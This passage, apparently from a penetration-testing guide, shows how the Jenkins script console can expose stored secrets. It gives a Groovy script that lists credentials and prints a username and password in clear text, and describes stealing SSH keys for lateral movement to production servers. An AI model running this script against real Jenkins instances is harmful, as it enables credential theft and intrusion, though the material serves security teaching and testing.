 ![](.gitbook/assets/image%20%283%29.png)

Moreover, we can also use this console to enumerate stored secrets in Jenkins with the following script:

```groovy
import com.cloudbees.plugins.credentials.*

// list credentials
credentials = SystemCredentialsProvider.getInstance().getCredentials()
println credentials

println ''
println credentials[0]['username'] + ':' + credentials[0]['password']
```

Furthermore, most of the time Jenkins will also store a Git user **SSH Key**. This is because of its nature as a CI/CD service, Jenkins usually store the SSH Key to **pull source code** and **deploy to production servers**. If we can get access to this SSH Key, we can use it to steal source code, and also perform lateral movement to production servers, resulting in very big damage.
